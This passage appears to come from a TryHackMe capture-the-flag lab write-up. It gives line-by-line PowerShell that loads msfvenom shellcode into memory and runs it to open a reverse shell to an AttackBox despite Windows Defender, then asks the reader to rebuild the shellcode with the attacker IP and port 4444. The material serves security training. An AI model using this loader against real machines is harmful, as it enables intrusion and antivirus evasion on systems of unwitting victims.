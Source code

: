 Then paste the line below, replacing the placeholder with the shellcode generated by msfvenom, and press `Enter`.

```shel
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```

Continue copying and pasting the lines from the code below. Remember, copy one line at a time, paste it, and press `Enter`.

```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

If you've done it properly, the PowerShell terminal in the VM will look like the screenshot below:

![](gitbook/cybersecurity/images/Pasted%20image%2020241208144640.png)

Once you execute the final line in the PowerShell terminal and press `Enter`, you will get a reverse shell in the AttackBox, giving you complete access to the computer even if the Windows Defender is enabled. Now you can issue any command, like issuing `dir`, which will list all the directories.

![successful shell screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1727972837925.png)

### Regaining Access

***

_Now Glitch must act, no time to delay,_

_To fix the shellcode and keep foes at bay._

_He tweaks and he codes to set the wrongs right,_

_Protecting his secrets with all of his might._

Let's dive into the story and troubleshoot the issue in this part of the task. Glitch has realized he's no longer receiving incoming connections from his home base. Mayor Malware's minion team seems to have tampered with the shellcode and updated both the IP and port, preventing Glitch from connecting. The correct IP address for Glitch is `ATTACKBOX_IP`, and the successful connection port should be `4444`.

Can you help Glitch identify and update the shellcode with the correct IP and port to restore the connection and reclaim control?

## Question

***

![](gitbook/cybersecurity/images/Pasted%20image%2020241208144730.png)

First, let's create the shellcode in order to start the steps to get a reverse shell:

![](gitbook/cybersecurity/images/Pasted%20image%2020241208145857.png)
